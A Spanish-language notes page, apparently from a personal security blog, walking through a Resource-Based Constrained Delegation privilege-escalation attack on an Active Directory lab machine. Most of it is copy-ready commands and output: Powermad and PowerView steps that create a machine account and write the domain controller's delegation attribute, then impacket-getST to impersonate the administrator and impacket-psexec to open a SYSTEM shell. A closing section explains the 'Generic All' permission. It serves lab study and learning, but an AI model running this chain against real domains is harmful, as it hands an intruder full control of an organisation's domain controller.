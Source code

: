 ```yaml
---
title: Resource-Based Constrained Delegation Attack
author: miguel3023
date: 2022-12-26
categories: [Notes]
tags: [Active Directory]
---
```


Este ataque es de una escalada de privilegios, esto, en un caso específico se pudo descubrir con **sharphound** y mediante **BloodHound** y un recurso compartido a nivel de red que con "net group" pudimos ver el permiso "Generic All" aplicado a los miembros del dominio

Extraído de de [Hacktricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation#attack) 

Primero lo que tenemos que hacer es subirnos el [Powermad.ps1](https://github.com/Kevin-Robertson/Powermad) en la máquina víctima y luego el [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1). Eso si, hay que importar ambos, una vez los hayamos subido en la máquina víctima, de la siguiente manera

`Powermad`: Con esto puedes crear un "object computer" dentro del dominio

`PowerView`: Es una herramienta escrita en PowerShell diseñada para obtener información en redes de Windows Active Directory.

```
*Evil-WinRM* PS C:\Users\support\Documents> Import-Module .\Powermad.ps1
```

Luego ejecutamos el siguiente comando (Lo que dice "SERVICEA" lo puedes cambiar por lo que quieras y la parte de los números, que es una constraseña, también, pero simplemente recuerda esto para luego). Esto es para crear una cuenta de máquina ó "MachineAccount" proporcionandole una contraseña y un nombre en específico

```
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Luego puedes verificar que lo anterior se ejecutó correctamente de la siguiente forma

```
Get-DomainComputer SERVICEA
```

Una vez hecho esto, hacemos el siguiente comando para almacenar en una variable el ObjectSid

```
$ComputerSid = Get-DomainComputer SERVICEA -Properties objectsid | Select -Expand objectsid
```

Y lo comprobamos haciendo

```
echo $ComputerSid
```

Luego ejecutamos esto que lo que hace es crear un nuevo objeto "RawSecurityDescriptor" que contiene la información de seguridad especificada en la cadena de caracteres y lo asigna a la variable $SD. Y también asigna los permisos ó el control total al propietario del objeto, que en este caso es con el usuario al cual tienes acceso en la máquina víctima

```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
```

Luego el siguiente que lo que hace es crear un nuevo array de bytes con un tamaño igual al tamaño de la información de seguridad contenida en el objeto $SD y lo asigna a la variable $SDBytes

```
$SDBytes = New-Object byte[] ($SD.BinaryLength)
```

Luego esta que lo que hace es  obtener la representación binaria de la información de seguridad contenida en el objeto $SD y la escribe en el array de bytes $SDBytes

```
$SD.GetBinaryForm($SDBytes, 0)
```

Luego (en este caso se pone "dc" porque así se llama la máquina. En hacktricks trae una variable, pero esa variable nunca la hemos definido, por ende ponemos "dc"). 

Esto lo que hace es obtener información sobre un equipo de dominio específico, establece el valor del atributo "msds-allowedtoactonbehalfofotheridentity" del equipo de dominio al valor del array de bytes $SDBytes y actualiza el equipo de dominio con los cambios

```
Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDByte
s}
```

Ya para comprobar todo lo anteriormente hecho hacemos, luego te debería de mostrar algo como lo siguiente

```
Get-DomainComputer dc -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}

```

Ya por último con la herramienta [impacket-getST](https://github.com/tothi/rbcd-attack#getting-the-impersonated-service-ticket) podemos obtener el TGT del usuario administrator (En SERVICEA ponemos el nombre del objeto que creamos anteriormente y le proporcionamos la contraseña que hemos creado)

```
❯ impacket-getST -spn cifs/dc.dominio.com -impersonate administrator -dc-ip <ip> dominio.htb/SERVICEA$:123456

[*] Getting TGT for user
[*] Impersonating administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```

El TGT se guardó en este caso en "administrator.ccache" y lo que tenemos que hacer es igualar una variable de entorno en donde nos guardó el TGT

```
❯ export KRB5CCNAME=administrator.ccache
```
Y ya por último puedes conectarte con "psexec" como administrator sin proporcionar credenciales

```
❯ impacket-psexec -k dc.support.htb

*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file tDagzSkX.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service lxWO on dc.support.htb.....
[*] Starting service lxWO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>

```

`Nota`: Todo esto también se puede hacer con **Rubeus**

## Permiso Generic All

"Generic All" es un permiso en entornos de directorio activo que le da a un usuario o grupo acceso completo a todos los objetos en el
 directorio. Esto incluye la capacidad de leer, escribir y ejecutar todos los archivos y carpetas en el directorio, así como modifica
r los atributos de los objetos y crear y eliminar objetos.

En general, "Generic All" se utiliza para otorgar acceso completo a un usuario o grupo a todos los objetos en un directorio, lo que p
uede ser útil en casos en los que se desea dar acceso total a un usuario o grupo para realizar tareas de administración o mantenimien
to en el directorio. Sin embargo, también es importante tener en cuenta que otorgar permisos "Generic All" a un usuario o grupo puede
 ser un riesgo de seguridad si no se hace de manera adecuada, ya que puede dar a ese usuario o grupo un control total sobre los objet
os en el directorio. Por lo tanto, es importante utilizar este permiso de manera cuidadosa y asegurarse de que solo se conceda a usua
rios o grupos de confianza.
